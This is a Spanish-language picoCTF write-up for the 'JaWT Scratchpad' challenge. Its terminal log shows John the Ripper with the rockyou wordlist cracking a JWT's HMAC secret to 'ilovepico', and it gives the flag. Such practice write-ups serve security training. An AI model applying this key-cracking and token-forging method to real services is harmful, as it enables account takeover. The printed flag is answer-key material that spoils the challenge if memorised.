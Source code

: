 # JaWT Scratchpad

## Descripcion
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864

## Pistas
What is that cookie?

Have you heard of JWT?

## Solucion 
```bash
┌──(alexia㉿kali)-[~]
└─$ john
Created directory: /home/alexia/.john
John the Ripper 1.9.0-jumbo-1+bleeding-aec1328d6c 2021-11-02 10:45:52 +0100 OMP [linux-gnu 64-bit x86_64 AVX2 AC]
Copyright (c) 1996-2021 by Solar Designer and others
Homepage: https://www.openwall.com/john/

Usage: john [OPTIONS] [PASSWORD-FILES]

Use --help to list all available options.

                                                                            
┌──(alexia㉿kali)-[~]
└─$ nano hash                   
                                                                        
                                                                            
┌──(alexia㉿kali)-[~]
└─$ ls /usr/share/wordlists
amass      fasttrack.txt  legion      rockyou.txt.gz  wifite.txt
dirb       fern-wifi      metasploit  sqlmap.txt
dirbuster  john.lst       nmap.lst    wfuzz
                                                                            
                                                  
┌──(alexia㉿kali)-[~]
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
[sudo] password for alexia: 
                                                                            
┌──(alexia㉿kali)-[~]
└─$ ls /usr/share/wordlists                         
amass      fasttrack.txt  legion      rockyou.txt  wifite.txt
dirb       fern-wifi      metasploit  sqlmap.txt
dirbuster  john.lst       nmap.lst    wfuzz
                                                                            
┌──(alexia㉿kali)-[~]
└─$ head /usr/share/wordlists/rockyou.txt
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
                                                                            
┌──(alexia㉿kali)-[~]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:04 DONE (2023-03-11 21:30) 0.2136g/s 1580Kp/s 1580Kc/s 1580KC/s iloverob4live345..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                            
┌──(alexia㉿kali)-[~]
└─$ 

```
![visible en Github](https://github.com/Alexlife2002003/ChallengesCTF/blob/main/Retos-Seguridad/Actividad%2006-%20Retos%20web%20parte%202/Pasted%20image%2020230311213412.png)
![[Pasted image 20230311213412.png]]

![visible en Github](https://github.com/Alexlife2002003/ChallengesCTF/blob/main/Retos-Seguridad/Actividad%2006-%20Retos%20web%20parte%202/Pasted%20image%2020230311213655.png)
![[Pasted image 20230311213655.png]]


## Bandera
picoCTF{jawt_was_just_what_you_thought_1ca14548}

## Notas Adicionales 
https://jwt.io/

